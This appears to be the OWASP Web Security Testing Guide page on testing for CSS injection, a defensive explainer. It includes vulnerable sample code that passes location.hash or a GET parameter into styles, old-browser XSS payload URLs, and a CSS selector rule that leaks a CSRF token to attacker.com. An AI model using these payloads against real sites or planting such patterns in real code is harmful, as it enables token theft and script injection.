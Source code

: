 # Testing for CSS Injection

|ID          |
|------------|
|WSTG-CLNT-05|

## Summary

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site which is rendered inside a victim's browser. The impact of this type of vulnerability varies based on the supplied CSS payload. It may lead to cross site scripting or data exfiltration.

This vulnerability occurs when the application allows user-supplied CSS to interfere with the application's legitimate style sheets. Injecting code in the CSS context may provide an attacker with the ability to execute JavaScript in certain conditions, or to extract sensitive values using CSS selectors and functions able to generate HTTP requests. Generally, allowing users the ability to customize pages by supplying custom CSS files is a considerable risk.

The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the `location.hash` (source) which reaches the `cssText` function (sink). This particular case may lead to DOM-based XSS in older browser versions; for more information, see the [DOM-based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

The attacker could target the victim by asking them to visit the following URLs:

- `www.victim.com/\#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/\#red;-:expression(alert(URL=1));` (IE 7/8)

The same vulnerability may appear in the case of reflected XSS, for example, in the following PHP code:

```html
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Further attack scenarios involve the ability to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors, leading to the exfiltration of data, for example, CSRF tokens.

Here is an example of code that attempts to select an input with a `name` matching `csrf_token` and a `value` beginning with an `a`. By utilizing a brute-force attack to determine the attribute's `value`, it is possible to carry out an attack that sends the value to the attacker's domain, such as by attempting to set a background image on the selected input element.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Other attacks using solicited content such as CSS are highlighted in [Mario Heiderich's talk, "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA) on YouTube.

## How to Test

Code should be analyzed to determine if a user is permitted to inject content in the CSS context. Particularly, the way in which the website returns CSS rules on the basis of the inputs should be inspected.

The following is a basic example:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

The above code contains a source `location.hash`, controlled by the attacker, that can inject directly in the `style` attribute of an HTML element. As mentioned above, this may lead to different results depending on the browser in use and the supplied payload.

The following pages provide examples of CSS injection vulnerabilities:

- [Password “cracker” via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://code.google.com/p/domxsswiki/wiki/CssText)

For further OWASP resources on preventing CSS injection, see the [Securing Cascading Style Sheets Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
